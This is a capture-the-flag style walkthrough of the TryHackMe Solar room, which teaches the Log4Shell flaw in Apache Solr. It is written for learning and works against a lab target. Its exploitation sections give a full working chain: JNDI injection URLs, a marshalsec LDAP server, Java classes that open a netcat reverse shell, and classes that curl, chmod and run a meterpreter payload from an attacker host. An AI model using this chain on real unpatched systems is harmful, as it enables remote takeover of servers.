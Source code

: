 ```yaml
---
layout: post
permalink: /blogs/:title/
title:  "TryHackMe - Solar Walkthrough"
---
```


# Introduction
This page documents the walkthrough of [Solar, a TryHackMe room](https://tryhackme.com/room/solar) designed to teach the 2021 Log4J vulnerability. This walkthrough is solely used for personal learning.<br>
*Read this walkthrough in `light` mode for better visibility due to screenshots!*

# Reconnaisance
1) **What service is running on port 8983? (Just the name of the software)**<br>
To identify the service running on port 8983, we can execute `nmap -sC -sV -p8983 10.10.58.249`
![](/screenshots/log4j/Pasted%20image%2020220303010830.png)

# Discovery
2) **Take a close look at the first page visible when navigating to [`**http://10.10.58.249:8983**`](http://10.10.58.249:8983/). You should be able to see clear indicators that log4j is in use within the application for logging activity. What is the `-Dsolr.log.dir` argument set to, displayed on the front page?**<br>
![](/screenshots/log4j/Pasted%20image%2020220303011224.png)

<br>

3) **Download the attached files (accessible in the top-right of this task) see some _example_ log files within Solr. Explore each file, if just to get a feel for what is displayed in what log. One file has a significant number of `INFO` entries showing repeated requests to one specific URL endpoint. Which file includes contains this repeated entry? (Just the filename itself, no path needed)**<br>

Looking at solr.log, we can identify the INFO entries.
![](/screenshots/log4j/Pasted%20image%2020220303011355.png)

4) **What "path" or URL endpoint is indicated in these repeated entries?**<br>
Entries with `/admin/cores` are repeated multiple times
![](/screenshots/log4j/Pasted%20image%2020220303011610.png)

5) **Viewing these log entries, what field name indicates some data entrypoint that you as a user could control? (Just the field name)**<br>
Similarly, the `params` field indicate some possible data entry point.

# Proof of Concept
To obtain a proof of concept, we can attempt to use JNDI to connect back to our attacker machine using the below syntax
`http://10.10.58.249:8983/solr/admin/cores?foo=${jndi:ldap://10.9.2.195:9999}`
![](/screenshots/log4j/Pasted%20image%2020220303012201.png)

OR using `curl`
*notice the { escapes using \ and single-quotes usage*
Looking back at our netcat listener, we see that a connection was made.
![](/screenshots/log4j/Pasted%20image%2020220303012255.png)


# Exploitation
For the exploitation portion, we can use this [marshalsec utility](https://github.com/mbechler/marshalsec) which provides an LDAP Server.

Install this package using maven, `mvn clean package -DskipTests`.

After the package is installed, start the LDAP referral server using `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"`
![](/screenshots/log4j/Pasted%20image%2020220303013226.png)
This command listens on port 1389 and redirects to port 8000 where we will have our exploit class ready.

**Exploit.java (exploit class)**
```java
public class Exploit{
	static {
		try {
			java.lang.RunTime.getRunTime().exec("nc -e /bin/bash 10.9.2.195 9999");
		} catch (Exception e){
			e.printStackTrace();
		}

	}
}
```

Compile exploit class using `javac Exploit.java -source 8 -target 8`. It is important to specify the source and target despite the room saying not to. I find that, without specifying, I wasn't able to get the reverse shell payload to execute.
![](/screenshots/log4j/Pasted%20image%2020220303014623.png)

Now, host a python http server on port 8000 on the same directory that contains the Exploit class. *remember earlier we mentioned that the LDAP server listens on port 1389 and redirects to port 8000, hence it is important to start the http server on port 8000*
![](/screenshots/log4j/Pasted%20image%2020220303013720.png)

Now, start your netcat listener to catch a shell.
![](/screenshots/log4j/Pasted%20image%2020220303013832.png)

Finally, trigger the exploit using the JNDI syntax (changing our destination port to 1389) `http://10.10.58.249:8983/solr/admin/cores?foo=${jndi:ldap://10.9.2.195:1389/Exploit}`
![](/screenshots/log4j/Pasted%20image%2020220303015119.png)

Looking back at our netcat listener, we have a shell!
![](/screenshots/log4j/Pasted%20image%2020220303014726.png)

## A high-level overview
JNDI payload -> LDAP Server (port 1389) -> HTTP Server (8000), runs exploit class -> Reverse shell (port 9999).


# Going Beyond - Obtaining a Meterpreter Shell
In the Solar Room, we were not taught how to obtain a meterpreter shell. However I believe there is a learning point here. Hence, I am going to document the steps to obtaining a meterpreter shell via Log4J.

First, create your meterpreter payload using msfvenom 
`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.9.2.195 LPORT=9999 -f elf > meterpreter_shell.elf`. (Create it in your http server for easier accessibility)

Now, the question is where should we download our binary?
Looking at the Solr web application on port 8983, we can see a possible writable directory for the solr user (`/var/solr/data`). *If this fails, we could also try `/tmp`.* 
![](/screenshots/log4j/Pasted%20image%2020220303024609.png)

Change Exploit.java to the code below. This downloads our meterpreter payload to the /var/solr/data directory instead of using netcat for a reverse shell.
**[UPDATED] Exploit.java (exploit class)**
```java
public class Exploit{
	static {
		try {
			java.lang.RunTime.getRunTime().exec("curl http://10.9.2.195:8000/meterpreter_shell.elf -o /var/solr/data/payload.elf");
		} catch (Exception e){
			e.printStackTrace();
		}
	}
}
```

Then, compile the exploit class again.
![](/screenshots/log4j/Pasted%20image%2020220303020157.png)

Run `msfconsole` and set the necessary parameters for our listener.
![](/screenshots/log4j/Pasted%20image%2020220303020324.png)

Executing the JNDI payload again, we see that the exploit class runs and downloads our meterpreter payload. The payload is now in the target system. Now, we have to execute the binary remotely. 
![](/screenshots/log4j/Pasted%20image%2020220303020410.png)

Create another class to execute the payload. This class changes the permission of our meterpreter payload which allows executions.<br>
**run_meterpreter_payload.java**
```java
public class Exploit{
	static {
		try {
			java.lang.RunTime.getRunTime().exec("chmod +x /var/solr/data/payload.elf");
		} catch (Exception e){
			e.printStackTrace();
		}
	}
}
```

Compile the run class.
![](/screenshots/log4j/Pasted%20image%2020220303020727.png)

Now, we have to restart our LDAP Server with a different parameter - calling our Run class instead of the Exploit class.
`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.2.195:8000/#run_meterpreter_payload"`
![](/screenshots/log4j/Pasted%20image%2020220303020903.png)

Run the JNDI payload, changing the target class. After this class executes, the permissions of the downloaded binary should have been changed.
`http://10.10.58.249:8983/solr/admin/cores?foo=${jndi:ldap://10.9.2.195:1389/run_meterpreter_payload}`
![](/screenshots/log4j/Pasted%20image%2020220303024424.png)


After the payload's file permissions is changed to allow execution, we can proceed to run the malicious payload using the below class.<br>
**[UPDATED] run_meterpreter_payload.java**
```java
public class Exploit{
	static {
		try {
			java.lang.RunTime.getRunTime().exec("/var/solr/data/payload.elf");
		} catch (Exception e){
			e.printStackTrace();
		}
	}
}
```

After compiling it, we proceeded to run the JNDI payload. 
`http://10.10.58.249:8983/solr/admin/cores?foo=${jndi:ldap://10.9.2.195:1389/run_meterpreter_payload}`
![](/screenshots/log4j/Pasted%20image%2020220303024359.png)


Looking back at our meterpreter listener, we see a meterpreter session has been opened.
![](/screenshots/log4j/Pasted%20image%2020220303024344.png)


## A high-level overview
1) JNDI payload -> JNDI Server -> HTTP Server -> Exploit.class (downloads meterpreter payload).<br>
2) Create new class to change permissions of payload. Also, change parameters of LDAP Server to redirect to new class now (instead of Exploit.class).<br>
3) JNDI payload -> JNDI Server -> HTTP Server -> run_meterpreter_payload.class (change permissions of payload to allow for execution).<br>
4) Change java rce to execute the payload, instead of changing permissions.<br>
5) JNDI payload -> JNDI Server -> HTTP Server -> run_meterpreter_payload.class (execute the payload).<br>